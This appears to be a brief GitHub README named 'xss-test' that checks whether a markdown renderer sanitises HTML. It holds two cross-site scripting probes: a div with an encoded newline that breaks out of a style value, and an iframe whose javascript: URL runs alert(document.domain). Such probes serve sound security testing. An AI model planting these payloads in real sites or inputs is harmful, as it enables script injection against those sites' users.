 # xss-test
xss



<div style="font-family:'foo&#10;;color:red;';">XXX

HOLA


```
  
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->

<IFRAME SRC="javascript:javascript:alert(document.domain);"></IFRAME>


```
